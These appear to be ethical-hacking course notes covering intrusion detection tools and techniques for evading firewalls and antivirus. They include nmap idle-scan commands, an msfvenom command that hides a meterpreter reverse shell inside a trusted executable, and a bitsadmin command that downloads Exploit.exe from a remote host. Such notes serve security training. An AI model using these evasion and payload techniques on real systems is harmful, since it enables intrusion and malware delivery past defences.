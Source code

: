# Module 12

## Evading IDS, antivirus and Honeypots
Intrusion Detection Systems (IDS) add a critical security layer, making them prime targets. Attackers use sophisticated evasion techniques to bypass detection and compromise the infrastructure. Similarly, firewalls relying on predefined rules can be tricked by skilled attackers using various bypass methods to allow malicious traffic to pass unfiltered.

---

### 1. Intrusion Detection using various tools
The goal of the Intrusion Detection Analyst is to find possible attacks against a network.

#### 1.1 Detect Intrusion using snort
[Snort - Network Intrusion Detection & Prevention System](https://www.snort.org/)

#### 1.2 Detect Malicious traffic with Zone alarm free firewall
[ZoneAlarm Free Firewall](https://www.zonealarm.com/software/free-firewall)

#### 1.3 Detect Malicious traffic using HoneyBot
[HoneyBot](https://honeybot.software.informer.com)

#### 1.4 Deploy Cowrie Honeypot to Detect Malicious Network Traffic
Cowrie serves as an SSH and Telnet honeypot, capable of capturing brute-force attacks and the actions taken by attackers within the shell.
[GitHub - cowrie/cowrie: Cowrie SSH/Telnet Honeypot https://cowrie.readthedocs.io](https://github.com/cowrie/cowrie)

---

### 2. Evade Firewall using Evasion Techniques
<img width="428" height="575" alt="image" src="https://github.com/user-attachments/assets/a333df1e-0c81-4fb8-8f58-7872bb5c2bac" />

#### 2.1 Bypass firewall using Nmap
Add a rule in windows firewall to block all traffic from the attacking machine.
In Ping sweep, the host will appear as online
- `nmap -sP 192.168.18.0/24`
Zombie scan can bypass the firewall rule
- `nmap -sI 192.168.18.2 192.168.18.11`  192.168.18.11 is the target

#### 2.2 Bypass firewall rules using HTTP/ FTP Tunneling 
HTTPort is a tool that bypasses restrictive HTTP proxies. It tunnels blocked traffic (like email or FTP) through an allowed HTTP connection.

**It works by**:
1. Sending data to a remote server (HTTHost) outside the blocked network using a series of HTTP requests.
2. The proxy sees this as normal web surfing and allows it.
3. The HTTHost server then forwards the traffic to the intended destination.
> This method is reliable and features strong encryption, making proxy logs useless.
[HTTPort, secure TCP through HTTP tunneling](https://www.targeted.org/htthost/)

#### 2.3 Bypass antivirus using metasploit templates
Attackers use msfvenom with the -x flag to embed a malicious payload into a legitimate, trusted executable file (like calc.exe). This tricks antivirus software into seeing the file as safe because it recognizes the trusted program's signature, allowing the hidden payload to bypass detection.

**How It's Done**
1. Acquire a Legitimate Template: Find a clean, signed executable from a trusted source. This will be your new template.
2. Inject the Payload: Use msfvenom to inject your malicious Metasploit payload (e.g., a reverse shell) into this legitimate executable.
3. The Bypass: The resulting file has the digital signature and code structure of the trusted software, but contains your hidden payload. AV is less likely to flag it because it appears to be a known-good program.

**Basic msfvenom Command**
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -x /path/to/legitimate_file.exe -k -f exe -o malicious_output.exe`
  - `-x /path/to/legitimate_file.exe`: Specifies your clean template.
  - `-k`: Tells Metasploit to preserve the template's original functionality alongside the payload. The legitimate program will still run to avoid suspicion.

---

#### 2.4 Bypass firewall using windows BITSAdmin
The utilty can be used to transfer files in windows command prompt.    
BITS (Background Intelligent Transfer Service) is an essential component of Windows XP and later versions of Windows operating systems. BITS is used by system administrators and programmers for downloading files from or uploading files to HTTP webservers and SMB file shares. BITSAdmin is a tool that is used to create download or upload jobs and monitor their progress.
bitsadmin /transfer Exploit.exe http://10.10.1.13/share/Exploit.exe c:\Exploit.exe

---
---
